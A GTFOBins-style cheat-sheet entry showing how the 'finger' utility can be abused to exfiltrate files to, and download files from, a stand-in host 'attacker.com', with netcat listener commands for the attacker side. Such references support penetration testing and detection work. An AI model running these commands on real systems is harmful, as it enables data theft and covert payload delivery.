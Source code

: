 # GTFOBin: finger

`finger` hangs waiting for the remote peer to close the socket.

## File upload

It can exfiltrate files on the network.

Send a binary file to a TCP port. Run `sudo nc -l -p 79 | base64 -d > "file_to_save"` on the attacker box to collect the file. The file length is limited by the maximum size of arguments.

```
RHOST=attacker.com
LFILE=file_to_send
finger "$(base64 $LFILE)@$RHOST"
```

## File download

It can download remote files.

Fetch remote binary file from a remote TCP port. Run `base64 "file_to_send" | sudo nc -l -p 79` on the attacker box to send the file.

```
RHOST=attacker.com
LFILE=file_to_save
finger x@$RHOST | base64 -d > "$LFILE"
```